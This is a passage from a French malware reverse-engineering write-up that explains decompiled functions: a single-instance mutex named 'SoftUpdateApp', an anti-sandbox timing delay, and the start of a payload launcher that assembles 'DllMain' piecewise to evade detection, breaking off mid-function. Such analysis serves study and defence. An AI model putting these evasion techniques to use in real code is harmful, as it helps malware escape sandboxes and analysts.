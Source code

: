     return result;
}

Ce qu’elle fait :

Crée un mutex nommé "SoftUpdateApp" pour vérifier qu’une seule instance du malware tourne.
Si une autre instance est détectée, il se ferme gracieusement ; sinon, il charge en douceur les bibliothèques nécessaires pour la suite.

#### 2.3. sub_401800 (Anti-Sandbox Delay)
Code représentatif :

uint32_t sub_401800() {
    GetLocalTime(&lpSystemTime_1);
    int16_t var_c;  // On récupère un bout d'heure (ex. les secondes)
    uint32_t ecx = (uint32_t)var_c;
    int32_t var_30_1;
    
    if (ecx > 0x2d)
        var_30_1 = ecx - 0x2d;
    else if (ecx != 0x2d)
        var_30_1 = ecx + 0xe;
    else
        var_30_1 = ecx - 0x1e;
    
    uint32_t var_34 = GetTickCount();
    int32_t var_3c = 0xafc8;
    int32_t var_40 = 0x57e40;
    uint32_t i;
    
    do {
        GetLocalTime(&lpSystemTime);
        i = GetTickCount() - var_34;
        int16_t var_1c;
        if (i > 0xafc8 && (uint32_t)var_1c == var_30_1)
            break;
    } while (i <= 0x57e40);
    
    return i;
}
Ce qu’elle fait :

Calcule un délai à partir de l’heure locale et du tick système.
L’idée ? Retarder l’exécution pour embrouiller les environnements de sandbox ou les débogueurs qui scrutent chaque microseconde.

#### 2.4. sub_401180 (Payload Launcher)
Code représentatif :

int32_t sub_401180() {
    char* eax_3 = sub_401330(&var_40);
    int32_t* eax_4 = sub_4025d0(eax_3, var_40);
    
    int32_t var_34;
    memset(&var_34, 0, 0x1c);
    strcat(&var_34, "Dll");
    strcat(&var_34, "Ma");
    strcat(&var_34, "in");
    